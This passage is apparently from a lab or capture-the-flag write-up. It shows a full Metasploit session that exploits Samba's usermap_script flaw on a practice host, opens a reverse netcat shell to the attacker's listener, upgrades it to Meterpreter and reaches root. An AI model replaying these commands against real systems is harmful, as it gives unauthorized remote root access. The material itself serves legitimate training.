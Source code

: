 
***

### Exploitation Path: SAMBA

```console

msfconsole -q
[msf](Jobs:0 Agents:0) >> setg RHOSTS 10.10.10.3
RHOST => 10.10.10.3
[msf](Jobs:0 Agents:0) >> setg LHOST 10.10.14.38
LHOST => 10.10.14.38
[msf](Jobs:0 Agents:0) >> use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> run
[*] Started reverse TCP handler on 10.10.14.38:4444 
[*] Command shell session 1 opened (10.10.14.38:4444 -> 10.10.10.3:54904) at 2024-10-15 09:26:39 -0500

background

Background session 1? [y/N]  y
[msf](Jobs:0 Agents:1) exploit(multi/samba/usermap_script) >> 
```

All fairly straight forward stuff, we set our remote host, our local host, find the module and gain access. Except, I would like to make life easier and use a meterpreter session. As with most things in metasploit, there’s a module for that.

```console
[msf](Jobs:0 Agents:1) exploit(multi/samba/usermap_script) >> use post/multi/manage/shell_to_meterpreter 
[msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> set SESSION 1
SESSION => 1
[msf](Jobs:0 Agents:1) post(multi/manage/shell_to_meterpreter) >> run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.38:4433 
[*] Sending stage (1017704 bytes) to 10.10.10.3
[*] Meterpreter session 2 opened (10.10.14.38:4433 -> 10.10.10.3:60308) at 2024-10-15 09:31:18 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
[msf](Jobs:0 Agents:2) post(multi/manage/shell_to_meterpreter) >> sessions 2
[*] Starting interaction with 2...

(Meterpreter 2)(/) > getuid
Server username: root
```

That's it, we have rooted the machine...

However, you may have attempted to use the VSFTPD exploit earlier, and perhaps that exploit didn’t work. Stick around and I will show the other exploitation path, as there’s a lesson to be learned there.


[^footnote]: https://www.exploit-db.com/exploits/17491
